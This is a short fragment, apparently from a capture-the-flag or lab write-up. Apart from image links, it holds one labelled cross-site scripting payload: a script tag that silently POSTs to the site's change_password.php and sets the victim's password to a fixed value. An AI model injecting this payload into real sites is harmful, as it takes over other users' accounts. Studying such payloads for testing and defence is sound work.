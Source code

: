 ![image.png](image%2015.png)

**PAYLOAD:**

```bash
<script>fetch('/change_password.php',{method:'POST',headers:{'Content-Type':'application/x-www-form-urlencoded'},body:"new_password=overthenethere"});</script>
```

![image.png](image%2016.png)
